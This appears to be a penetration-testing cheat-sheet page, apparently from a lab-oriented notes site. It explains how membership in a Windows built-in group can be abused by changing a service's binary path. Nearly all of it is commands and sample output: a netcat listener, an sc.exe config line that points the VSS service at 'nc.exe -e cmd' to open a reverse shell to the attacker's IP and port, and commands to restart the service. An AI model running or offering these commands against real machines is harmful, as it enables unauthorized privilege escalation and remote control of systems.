 ```yaml
---
title: "Built-in Group"
date: 2024-7-24
tags: ["Built-In Group", "Windows", "Windows Service"]
---
```


#### Abuse #1. Modify service path

```console
# Start a nc listener
rlwrap nc -lvnp <LOCAL_PORT>
```

```console {class="sample-code"}
$ rlwrap nc -lvnp 443
listening on [any] 443 ...
```

{{< tab set1 tab1 active >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### 1. Change service path

```console
# Assumed nc.exe is uploaded
sc.exe config <SERVICE> binpath="C:\ProgramData\nc.exe -e cmd <LOCAL_IP> <LOCAL_PORT>"
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\ProgramData> sc.exe config VSS binpath="C:\ProgramData\nc.exe -e cmd 10.10.14.44 443"
[SC] ChangeServiceConfig SUCCESS
```

#### 2. Restart service

```console
# Stop service
sc.exe stop <SERVICE>
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe stop VSS
[SC] ControlService FAILED 1062:

The service has not been started.
```

```console
# Start service
sc.exe start <SERVICE>
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\windows\tasks> sc.exe start VSS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

{{< /tabcontent >}}
